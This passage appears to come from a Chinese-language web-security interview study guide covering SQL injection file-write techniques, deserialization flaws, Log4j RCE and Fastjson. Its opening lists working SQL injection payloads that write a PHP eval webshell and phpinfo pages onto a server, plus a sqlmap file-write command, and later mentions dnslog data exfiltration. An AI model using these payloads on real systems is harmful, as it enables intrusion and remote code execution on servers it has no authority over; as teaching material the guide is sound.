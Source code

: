 ?id=1' union select 1,"`<?php @eval($_POST['shell']);?>`",3 into dumpfile 'C:\\phpstudy\\WWW\\sqli\\shell.php'#

lines terminated by 写入

?id=1 into outfile 'C:/wamp64/www/shell.php' lines terminated by '`<?php phpinfo()?>`'; //lines terminated by 可以理解为 以每行终止的位置添加 xx 内容。

lines starting by 写入

?id=1 into outfile 'C:/wamp64/www/shell.php' lines starting by '`<?php phpinfo()?>`'; //利用 lines starting by 语句拼接webshell的内容。lines starting by 可以理解为 以每行开始的位置添加 xx 内容。

fields terminated by 写入

?id=1 into outfile 'C:/wamp64/www/work/shell.php' fields terminated by '`<?php phpinfo() ?>`'; //利用 fields terminated by 语句拼接webshell的内容。fields terminated by 可以理解为 以每个字段的位置添加 xx 内容。

columns terminated by 写入

?id=1 into outfile 'C:/wamp64/www/shell.php' COLUMNS terminated by '`<?php phpinfo() ?>`'; //利用 fields terminated by 语句拼接webshell的内容。fields terminated by 可以理解为 以每个字段的位置添加 xx 内容。

sqlmap写入

写：(要写的文件，必须在kali本机里有) 写入到 /tmp 目录下 sqlmap -u "http://127.0.0.1/index.php?page=user-info.php&username=a%27f%27v&password=afv&user-info-php-submit-button=View+Account+Details" -p 'username' --file-write="shell.php" --file-dest="/tmp/shell.php"

## 13.了解过反序列化漏洞吗？

原理：

序列化是指程序将对象转化为字节序列从而便于存储运输的一种方式，反序列化则与其相反，即将字节序列转化为对象供程序使用。程序在进行反序列化时会调用一些函数，比如常见的PHP反序列化函数unserialize()以及一些常见的魔术方法，比如构造函数_construct()，析构函数_destruct()，_wakeup()，_toString()，_sleep()等等。如果这些函数在传递参数时没有进行严格的过滤措施，那么攻击者就可以构造恶意代码并将其序列化后传入函数中，从而导致反序列化漏洞。

Java反序列化

Java反序列化就是将java对象转化为字节序列的过程。反序列化的过程就是

1，创建一个对象输出流

2，通过对象输出流的ReadObject()方法来读取对象

## 14.常见的框架漏洞？

log4j远程代码执行漏洞

* 原理：
* Log4j 是Apache 的一个开源项目，是一款基于Java 的开源日志记录工具。该漏洞主要是由于日志在打印时当遇到 `${`后，以:号作为分割，将表达式内容分割成两部分，前面一部分prefix，后面部分作为key，然后通过prefix去找对应的lookup，通过对应的lookup实例调用lookup方法，最后将key作为参数带入执行，引发远程代码执行漏洞。
* 具体操作：
* 在正常的log处理过程中对**${**这两个紧邻的字符做了检测，一旦匹配到类似于表达式结构的字符串就会触发替换机制，将表达式的内容替换为表达式解析后的内容，而不是表达式本身，从而导致攻击者构造符合要求的表达式供系统执行

Fastjson反序列化漏洞

* 判断：
* 正常请求是get请求并且没有请求体，可以通过构造错误的POST请求，即可查看在返回包中是否有fastjson这个字符串来判断。
* 原理：
* fastjson是阿里巴巴开发的一款将json字符串和java对象进行序列化和反序列化的开源json解析库。fastjson提供了autotype功能，在请求过程中，我们可以在请求包中通过修改@type的值，来反序列化为指定的类型，而fastjson在反序列化过程中会设置和获取类中的属性，如果类中存在恶意方法，就会导致代码执行等这类问题。
* 无回显怎么办：
* 1.一种是直接将命令执行结果写入到静态资源文件里，如html、js等，然后通过http访问就可以直接看到结果
* 2.通过dnslog进行数据外带，但如果无法执行dns请求就无法验证了
* 3.直接将命令执行结果回显到请求Poc的HTTP响应中
